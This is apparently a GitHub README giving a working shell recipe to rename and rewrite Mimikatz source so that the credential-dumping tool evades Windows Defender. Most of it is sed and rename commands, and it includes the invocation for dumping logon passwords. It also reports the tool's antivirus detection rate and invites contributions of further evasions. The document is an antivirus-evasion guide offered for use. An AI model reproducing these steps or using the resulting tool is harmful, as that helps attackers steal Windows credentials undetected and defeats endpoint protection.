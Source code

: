 # Simple Mimikatz "Obfuscator"

### **Tested in**
**Defender**: Security Intelligence (yeah...) Version **1.299.423.0**

**Windows**: **1903** (OS Build **18362.239**)

## Description 
The following set of commands, will download the latest version of mimikatz and make a few changes to the source code, in order to bypass Defender. I **have only tested with logonpasswords** (**logonpassword** after the changes...). If you want other modules, i suppose that one more "sed" will do the job...

I do not really use to use mimikatz from an executable (i really prefer the "Cobalt Strike" way), but i was curious how difficult could be to bypass the Defender. 

## It is that difficult 

    git clone https://github.com/gentilkiwi/mimikatz.git windows
    mv windows/mimikatz windows/windows
    find windows/ -type f -print0 | xargs -0 sed -i 's/mimikatz/windows/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/MIMIKATZ/WINDOWS/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Mimikatz/Windows/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/DELPY/gweep/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Benjamin/gweeperx/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/benjamin@gentilkiwi.com/@gweeperx/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/creativecommons/notcommons/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/gentilkiwi/MSOffice/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/KIWI/ONEDRIVE/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Kiwi/Onedrive/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/kiwi/onedrive/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/DumpCreds/DumpCred/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/logonPasswords/logonPassword/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/ArgumentPtr/NotTodayPal/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' 
    
    
    
    find windows/ -type f -name '*mimikatz*' | while read FILE ; do
    	newfile="$(echo ${FILE} |sed -e 's/mimikatz/windows/g')";
    	mv "${FILE}" "${newfile}";
    done
    find windows/ -type f -name '*kiwi*' | while read FILE ; do
    	newfile="$(echo ${FILE} |sed -e 's/kiwi/onedrive/g')";
    	mv "${FILE}" "${newfile}";
    done
    
    cd ./windows/windows/
    sed -i "0,/#if \!defined(_POWERKATZ)/! {0,/#if \!defined(_POWERKATZ)/ s/#if \!defined(_POWERKATZ)/\/*\r\n#if \!defined(_POWERKATZ)/}" windows.c
    sed -i "0,/#endif/! {0,/#endif/! {0,/#endif/ s/#endif/#endif\r\n*\//}}" windows.c

And probably not all of these are needed, but who cares.
## PoC
[https://www.youtube.com/watch?v=9AZqfepiAn4](https://www.youtube.com/watch?v=9AZqfepiAn4)
## How To

You can only invoke it with arguments:

> *windows.exe privilege::debug sekurlsa::**logonpassword***

## Commit

Although i targeted Defender, based on antiscan.me there is a **detection rate 9/26** . ~~I will try to bypass the 9 remaining~~  
If you find other signatures and you want to share, please feel free to commit.

## References

Of course all credits go to: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz) 
This guy created this amazing tool and gave it to all of us. 

I stole a lot from the following articles:
[https://weekly-geekly.github.io/articles/454758/index.html?fbclid=IwAR1tAuqz7SqYE9yXoIBOruVwEQ0BueQZqmL6Gse2T6Cb1eWBma7zIceJhXY](https://weekly-geekly.github.io/articles/454758/index.html?fbclid=IwAR1tAuqz7SqYE9yXoIBOruVwEQ0BueQZqmL6Gse2T6Cb1eWBma7zIceJhXY)

[https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/?fbclid=IwAR1LQjnmRzhXnlOtMfCbPVhYgUVdgu8xRiAwOJPg-7eIFjZgjEI8--548W0](https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/?fbclid=IwAR1LQjnmRzhXnlOtMfCbPVhYgUVdgu8xRiAwOJPg-7eIFjZgjEI8--548W0)



And i almost copied paste from the following:
[https://gist.github.com/JonnyBanana/96331b350f99d267e07da16246724517](https://gist.github.com/JonnyBanana/96331b350f99d267e07da16246724517)
thx JonnyBanana

Supper difficult ha?
